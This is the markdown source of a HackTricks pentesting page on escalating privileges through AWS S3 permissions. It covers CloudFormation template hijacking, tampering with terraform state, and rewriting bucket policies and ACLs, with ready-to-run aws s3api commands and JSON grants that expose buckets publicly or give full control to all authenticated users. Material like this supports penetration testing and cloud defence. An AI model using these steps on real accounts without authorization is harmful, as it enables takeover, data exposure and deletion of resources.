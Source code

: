 # AWS - S3 Privesc

{{#include ../../../banners/hacktricks-training.md}}

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

An attacker with those permissions over interesting buckets might be able to hijack resources and escalate privileges.

For example, an attacker with those **permissions over a cloudformation bucket** called "cf-templates-nohnwfax6a6i-us-east-1" will be able to hijack the deployment. The access can be given with the following policy:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": [
        "s3:PutBucketNotification",
        "s3:GetBucketNotification",
        "s3:PutObject",
        "s3:GetObject"
      ],
      "Resource": [
        "arn:aws:s3:::cf-templates-*/*",
        "arn:aws:s3:::cf-templates-*"
      ]
    },
    {
      "Effect": "Allow",
      "Action": "s3:ListAllMyBuckets",
      "Resource": "*"
    }
  ]
}
```

And the hijack is possible because there is a **small time window from the moment the template is uploaded** to the bucket to the moment the **template is deployed**. An attacker might just create a **lambda function** in his account that will **trigger when a bucket notification is sent**, and **hijacks** the **content** of that **bucket**.

![](<../../../images/image (174).png>)

The Pacu module [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn__resource_injection) can be used to automate this attack.\
For mor informatino check the original research: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

These are the permissions to **get and upload objects to S3**. Several services inside AWS (and outside of it) use S3 storage to store **config files**.\
An attacker with **read access** to them might find **sensitive information** on them.\
An attacker with **write access** to them could **modify the data to abuse some service and try to escalate privileges**.\
These are some examples:

- If an EC2 instance is storing the **user data in a S3 bucket**, an attacker could modify it to **execute arbitrary code inside the EC2 instance**.

### `s3:PutObject`, `s3:GetObject` (optional) over terraform state file

It is very common that the [terraform](https://cloud.hacktricks.wiki/en/pentesting-ci-cd/terraform-security.html) state files are being saved to blob storage of cloud providers, e.g. AWS S3. The file suffix for a state file is `.tfstate`, and the bucket names often also give away that they contain terraform state files. Usually, every AWS account has one such bucket to store the state files that show the state of the account.
Also usually, in real world accounts almost always all developers have `s3:*` and sometimes even business users have `s3:Put*`.

So, if you have the permissions listed over these files, there is an attack vector that allows you to gain RCE in the pipeline with the privileges of `terraform` - most of the time `AdministratorAccess`, making you the admin of the cloud account. Also, you can use that vector to do a denial of service attack by making `terraform` delete legitimate resources.

Follow the description in the *Abusing Terraform State Files* section of the *Terraform Security* page for directly usable exploit code:

{{#ref}}
terraform-security.md#abusing-terraform-state-files
{{#endref}}

### `s3:PutBucketPolicy`

An attacker, that needs to be **from the same account**, if not the error `The specified method is not allowed will trigger`, with this permission will be able to grant himself more permissions over the bucket(s) allowing him to read, write, modify, delete and expose buckets.

```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
    "Id": "Policy1568185116930",
    "Version":"2012-10-17",
    "Statement":[
        {
            "Effect":"Allow",
            "Principal":{
                "AWS":"arn:aws:iam::123123123123:root"
            },
            "Action":"s3:ListBucket",
            "Resource":"arn:aws:s3:::somebucketname"
        },
        {
            "Effect":"Allow",
            "Principal":{
                "AWS":"arn:aws:iam::123123123123:user/username"
            },
            "Action":"s3:*",
            "Resource":"arn:aws:s3:::somebucketname/*"
        }
    ]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
  "Id": "Policy1568185116930",
  "Version": "2012-10-17",
  "Statement": [
  {
      "Sid": "Stmt1568184932403",
      "Action": [
        "s3:ListBucket"
      ],
      "Effect": "Allow",
      "Resource": "arn:aws:s3:::welcome",
      "Principal": "*"
  },
  {
    "Sid": "Stmt1568185007451",
    "Action": [
      "s3:GetObject"
    ],
    "Effect": "Allow",
    "Resource": "arn:aws:s3:::welcome/*",
    "Principal": "*"
  }
  ]
}
```

### `s3:GetBucketAcl`, `s3:PutBucketAcl`

An attacker could abuse these permissions to **grant him more access** over specific buckets.\
Note that the attacker doesn't need to be from the same account. Moreover the write access

```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
  "Owner": {
    "DisplayName": "<DisplayName>",
    "ID": "<ID>"
  },
  "Grants": [
  {
    "Grantee": {
      "Type": "Group",
      "URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
    },
  "Permission": "FULL_CONTROL"
  }
  ]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```

### `s3:GetObjectAcl`, `s3:PutObjectAcl`

An attacker could abuse these permissions to grant him more access over specific objects inside buckets.

```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
  "Owner": {
    "DisplayName": "<DisplayName>",
    "ID": "<ID>"
  },
  "Grants": [
  {
    "Grantee": {
      "Type": "Group",
      "URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
    },
  "Permission": "FULL_CONTROL"
  }
  ]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```

### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

An attacker with these privileges is expected to be able to put an Acl to an specific object version

```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```

{{#include ../../../banners/hacktricks-training.md}}



